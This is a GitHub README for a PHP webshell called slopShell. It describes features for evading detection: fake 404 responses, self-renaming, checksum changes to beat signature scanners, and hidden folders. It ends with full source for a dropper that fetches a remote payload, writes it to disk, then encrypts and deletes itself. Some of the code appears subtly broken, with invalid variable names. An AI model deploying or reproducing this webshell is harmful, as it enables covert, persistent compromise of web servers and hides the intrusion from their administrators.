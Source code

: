 [![GitHub forks](https://img.shields.io/github/forks/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/network)
[![GitHub stars](https://img.shields.io/github/stars/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/stargazers)
[![GitHub watchers](https://img.shields.io/github/watchers/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/watchers)
[![GitHub issues](https://img.shields.io/github/issues/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/issues)
[![language](https://img.shields.io/badge/language-PHP-blue?style=plastic)](https://www.php.net)
[![language](https://img.shields.io/badge/language-Powershell-blue?style=plastic)](https://docs.microsoft.com/en-us/powershell/)
[![language](https://img.shields.io/badge/language-Bash-yellow?style=plastic)](https://www.gnu.org/software/bash/)
[![BuyMeACoffee](https://img.shields.io/badge/BuyMeACoffee-Or%20Book-yellowgreen?style=plastic)](https://www.buymeacoffee.com/oldkingcone)


# slopShell
php webshell

Since I derped, and forgot to talk about usage. Here goes.

For this shell to work, you need 2 things, a victim that allows php file upload(yourself, in an educational environment) and a way to send http requests to this webshell (the client script is the 100% best way to communicate with this shell). 


Thank you for all the support the community has given, it means alot to us. Now for things that will be added to this shell, to make it even more awesome. 

 - Mutual TLS, with the ability to generate a CA on the fly(if thats possible) 
 - More refined dropper/shell itself, to ensure that the shell will not be stumbled upon for prolonged access.
 - Future edititions of this will have access to a personal database of cloud entities, its bascially a personal shodan of mine. Fee will be required for this(sorry).


Current VT Detection ratio: 2/59 (most new version)

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/fbec31525f79578305d67847183dbef7c7a64b431aef81fd59aadfbaa10461c5/detection)


Current VT Detection ratio (obfuscated version): 1/59 //This is a refined version of the slimmed down dropper. the overall file length is just under 2kb in size. Slopshell now correctly assigns a randomized useragent with a correct useragent value, that is, an actual useragent like mozilla,opera,chrome,chromium, etc.

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/46920e27a685d707cb82f23c6c76dd3705d6ec9c96b398828d57791bed7af059/detection)

~~__The issue with this detection happening is i have not found a viable workaround for the keyword of eval if there was no call to eval this script would be undetectable.__~~

---
# Setup

Ok, so here we go folks, there was an itch I had to write something in PHP so this is it. This webshell has a few bells and whistles, and more are added everyday. You will need a pgsql server running that you control. However you implement that is on you.

Debian: `apt install -y postgresql php php-pear python3-pip php-readline php-curl libsodium libsodium-dev && python -m pip install proxybroker --user`

RHEL Systems: `dnf -y -b install postgresql-server postgresql php php-pear python3-pip php-readline php-curl libsodium libsodium-devel && python -m pip install proxybroker --user`

WIN: `install the php msi, and make sure you have an active postgresql server that you can connect to running somewhere.`


Once you have these set up properly and can confirm that they are running. A command I would encourge using is with `pg_ctl` you can create the DB that way, or at least init it and start it. Then all the db queries will work fine.

---
# Credits for the execution methods

You may notice these are a reskin of another Wordpress backdoor, and once i find the repo again, [i will make sure to give credit for the execution of commands function that is present in these shells](https://github.com/leonjza/wordpress-shell/blob/master/shell.php#L47). I do not like to rip off code and believe that credit needs to be given where credit is due. Thank you kind sir, you have helped me quite a bit with this by making your scripts available to the public.

---
## What makes this shell unique?

So, while doing some changes, i thought heck why not add in a way for the ACTUAL shell itself to hide itself from a less than observant admin. Cleaned up the code execution methods, cleaned up the whole script. No longer will it display a fake 500 page, as this attracts too much attention from an observent admin (more so from my time as an admin of a php dev stack on a server) 500 error messages attract a lot of attention, which will mean the shell is more likely to be discovered. A 404 response however, is much less likely to draw in the gaze of the server admin. Making this shell itself much more difficult to detect and find, in addition to the changing filename, finding this shell will be an absolute nightmare. User-Agent customization is still something that will need to be done, or a unique cookie value will need to be used in place of the User-Agent value that however, will not be set by myself and i will let more experienced users customize this shell to their hearts content. Again, if you notice any issues, or any shortcomings(most i have fixed, and have updated this shell to PHP8 for the most part, type hints i still cannot add in and this is for backwards compatibility reasons) please do open an issue and let me know what is wrong, and i will see about fixing it. Thank you, do good fight evil, have fun.

Here is what I was able to come up with for the added evasive routines:
 - The shell will dynamically rename itself (this did break the client for now, I have so many things to change in the client, but this is just a pet project of mine.)
 - The original file will be deleted after it is written to disk the script now also adds a random comment at the top of the file, completely changing the checksum of the file, making signature based detection scanning much more difficult, not polymorphic, would be nice if this can be done in php. May write an additional function to randomize the location of the functions and adds random functions at random locations.
 - The value of the old file and the new file name will be reported back to the user in a header.
 - The shell now response HTTP 404 to everything, even valid requests. (another reason the client script is broken.)
 - Still working on the MTLS portions of the client and shell script.
 - I named it something different than i normally do.
 - Remapped some of the extra functions to fire off by default now, IE OS detection.
 - Added the ability for the script (if the directory is writable) to create a hidden folder for the shell to store the uploaded goodies to, and then reference.
 - Still working on dynamic loading and execution of uploaded scripts.

As I have grown in the language of PHP so will this whole project and the classes will become proper classes, with namespaces and all. Just need some time as i fix the code to more common standards of PHP development. I will likely add in a way to package this shell itself as a WordPress plugin, so that way it can be used in wordpress as well.( a proper plugin at that. )

---
## Images of use cases

Client script usage:
![](https://github.com/oldkingcone/slopShell/blob/master/images/client_usage.png?raw=true)

Reverse Connection initiated from the client script:
![](https://github.com/oldkingcone/slopShell/blob/master/images/reverse_connection_client_script.png?raw=true)


---
## Additional

I as the maintainer, am in no way responsible for the misuse of this product. This was published for legitmate penetration testing/red teaming purposes, and/or for educational value.  Know the applicable laws in your country of residence before using this script, and do not break the law whilst using this. Thank you and have a nice day.

## Slimmed down dropper example: 
```
/* These comments are not present in the actual dropper, these are here to explain what this is doing.*/
<?php
http_response_code(404);
# pre shared values that only the operator of this shell will have. This dropper will be split into 3 parts to include system enumeration.
if (isset($_COOKIE['6e3611c0032725']) && $_SERVER['HTTP_USER_AGENT'] === 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.157 Safari/537.36(d9e1cee219f19c6d7c)'){
    if (isset($_POST['hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df'])){
        $hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df = explode('.', unserialize(base64_decode($_COOKIE['6e3611c0032725']), ['allowed_classes' => false]));
        # Pre-shared value that only the operator has access to through the database.
        if ( hash_equals(hash_hmac('sha256', $_COOKIE['6e3611c0032725'], $hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df[0]), $hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df[1]) ){
            if (function_exists("com_create_guid") === true){
                $CDd5054278c02f = trim(com_create_guid()).PHP_EOL.PHP_EOL;
            }else{
                $70f4adfb6efefe08db = openssl_random_pseudo_bytes(16);
                $70f4adfb6efefe08db[6] = chr(ord($70f4adfb6efefe08db[6]) & 0x0f | 0x40);
                $70f4adfb6efefe08db[8] = chr(ord($70f4adfb6efefe08db[8]) & 0x3f | 0x80);
                $CDd5054278c02f = vsprintf('%s%s-%s-%s-%s-%s%s%s', str_split(bin2hex($70f4adfb6efefe08db), 4)).PHP_EOL.PHP_EOL;
            }
            # returns our needed data back to the server, this is broken into 3 parts, the uuid, the filename of our shell/enumeration script, and if we need stealth or not.
            echo $CDd5054278c02f . "_e8a4f6f58c05"."_true".PHP_EOL;
            fputs(fopen('./e8a4f6f58c05.php', 'a+'),base64_decode(file_get_contents($hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df[2])));
            foreach (file($_SERVER['SCRIPT_FILENAME']) as $line){
            # if this dropper is activated in the correct way, this portion of the script takes less than a second to complete due to the size of this script.
                fwrite(fopen($_SERVER['SCRIPT_FILENAME'], 'w'), openssl_encrypt($line, 'aes-256-ctr', bin2hex(openssl_random_pseudo_bytes(100)), OPENSSL_RAW_DATA|OPENSSL_NO_PADDING|OPENSSL_ZERO_PADDING, openssl_random_pseudo_bytes((int)openssl_cipher_iv_length('aes-256-ctr'))));
            }
            # dropper routine is finished, no need to exist on the system any longer.
            fclose($_SERVER['SCRIPT_FILENAME']);
            unlink($_SERVER['SCRIPT_FILENAME']);
        }else{
            die();
        }
        die();
    }
}else{
    die();
}
```
